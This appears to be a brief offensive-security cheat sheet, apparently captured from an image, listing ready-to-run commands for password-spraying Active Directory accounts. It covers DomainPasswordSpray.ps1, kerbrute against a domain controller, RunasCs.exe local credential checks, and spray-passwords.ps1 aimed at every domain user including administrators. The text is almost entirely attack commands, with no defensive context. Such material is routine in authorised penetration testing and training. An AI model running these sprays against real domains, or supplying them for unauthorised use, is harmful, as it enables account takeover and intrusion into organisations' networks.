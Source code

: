 ### **USING DOMAINPASSWORDSPRAY.PS1**

1.  Import the DomainPasswordSpray module.  
    `Import-Module .\DomainPasswordSpray.ps1`
2.  Run the Invoke-DomainPasswordSpray command with the desired password and output file parameters.  
    `Invoke-DomainPasswordSpray -Password [PASSWORD] -OutFile spray_success -ErrorAction SilentlyContinue`

### **USING KERBRUTE FOR PASSWORD SPRAYING**

1.  Execute the password spray attack:  
    `kerbrute passwordspray -d example.local --dc [IP_ADDRESS] valid_users.txt [PASSWORD]`

### **USING RUNASCS.EXE**

1.  RunasCs.exe can be used to check credentials locally without access to SMB, LDAP, WinRM, Kerberos, or any other authenticated Windows services.  
    `.\RunasCs.exe Administrator notthepassword "cmd /c whoami"`
    
2.  Use spray-passwords.ps1 script: https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
    
    ```powershell
    # test password against all users in the AD, including admins.
    PS> .\spray-passwords.ps1 -Admin -Pass IamUser01
    PS> .\spray-passwords.ps1 -Admin -Pass IamUser02
    ```